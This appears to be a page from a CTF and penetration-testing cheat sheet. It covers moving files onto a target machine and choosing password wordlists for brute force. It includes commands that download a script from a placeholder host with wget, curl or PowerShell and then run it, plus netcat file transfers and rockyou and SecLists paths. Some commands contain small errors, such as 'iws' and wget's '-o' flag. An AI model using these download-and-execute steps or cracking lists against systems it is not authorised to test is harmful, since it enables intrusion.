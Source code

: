 # Exploitation

<hr class="sep-both">

## Transfer files between two machines🛅

You will often have to send scripts to the target, or download files from the target.

<div class="row row-cols-md-2"><div>

**The most used: Python HTTP Server** 🐍

<i class="small">On the host where the file is:</i>

```bash
$ ls
file.sh file.ps1
$ python -m http.server port # port > 1023
$ sudo python -m http.server port # port <= 1023
```

<i class="small">On the client that need the file:</i>

```bash
# Linux
$ wget HOST_IP:port/script.sh -o /tmp/script.sh
$ chmod +x /tmp/script.sh;
$ /tmp/script.sh
# Windows
PS> wget HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
PS> . $Env:TMP/script.ps1; script
```
</div><div>

Of course, it doesn't work in every case.

* You may use copy-paste if available ✂️
* You may try with `python2`, and `python3`
* You may have to use `curl` or `iws` (Windows-only)

```bash
$ curl HOST_IP:port/script.sh -o /tmp/script.sh
PS> curl HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
PS> iws HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
```

* You can use netcat 🌉

```bash
# host
$ nc CLIENT_IP port < file.sh
# client
$ nc -lvp port > file.sh
```

* You may use FTP/SCP/NFS... if applicable
</div></div>

<hr class="sl">

## 📃 Wordlists 📃

<div class="row row-cols-md-2 mt-3"><div>

There are two packages that are providing a lot of wordlists. Install, then use either command `wordlists` or `seclists` to move to the location where the wordlists are stored, and get the path of every wordlist.

* package seclists | [GitHub](https://github.com/danielmiessler/SecLists) (43k ⭐)
* package wordlists | [GitHub](https://github.com/drtychai/wordlists) (0.1k ⭐)

> **CTF are usually using `/usr/share/wordlists/rockyou.txt`** when there is a password to crack. If it's not inside, then it's likely that you're not supposed to use brute force.

### ➡️ Improving efficiency

As a "hacker", if there is a policy of "at least n characters/up to $m$ characters", then it would be very wise to filter shorter/longer values from your wordlists. For instance, with `rockyou.txt`

* `{n}`: only keep values having exactly $n$ characters
* `{n,}`: only keep values having more ($\ge$) than $n$ characters
* `{n,m}`: only keep values having between $[n,m]$ characters
* `{,m}`: only keep values having less ($\le$) than $m$ characters

```bash
# only keep 4 letters passwords
$ egrep '^.{4}$' /usr/share/wordlists/rockyou.txt > /tmp/4rock.lst
# which is the same as
$ grep '^....$' /usr/share/wordlists/rockyou.txt > /tmp/4rock.lst
```

As a reminder, you can also merge wordlists

```bash
$ cat wordlist1 wordlist2 wordlist3 > wordlist123
```
</div><div>

### ➡️ generate simple wordlists

There may be a case in which you want a wordlist such as numbers from 0 to 99, or every letter from A to Z. In both cases, I'm using [bash braces expansion](/operating-systems/linux/bash/index.md#braces-expansion) to generate the wordlist like this

```bash
$ echo {A..Z} | tr ' ' '\n' > AZ.lst
$ echo {0..99} | tr ' ' '\n' > 0_to_99.lst
$ echo user{0..9} | tr ' ' '\n' > user_0_to_99.lst
$ echo {admin,adm,user} | tr ' ' '\n' > simple_list.lst
```

### ➡️ package wordlist

<p class="mt-4">Passwords</p>

```
/usr/share/wordlists/rockyou.txt
/usr/share/wordlists/fasttrack.txt
/usr/share/wordlists/dirb/others/best1050.txt
/usr/share/wordlists/dirb/others/best110.txt
/usr/share/wordlists/dirb/others/best15.txt
```

### ➡️ package seclists 📌

<p class="mt-4">

[Passwords](https://github.com/danielmiessler/SecLists/tree/master/Passwords)
</p>

```
$ ls /usr/share/seclists/Passwords/
2020-200_most_used_passwords.txt
darkc0de.txt
darkweb2017-top10000.txt
$ ls /usr/share/seclists/Passwords/Common-Credentials
10k-most-common.txt
10-million-password-list-top-1000000.txt
$ ls /usr/share/seclists/Usernames/
xato-net-10-million-usernames.txt
```

[Usernames](https://github.com/danielmiessler/SecLists/tree/master/Usernames)

```
$ ls /usr/share/seclists/Usernames/
xato-net-10-million-usernames.txt
```
</div></div>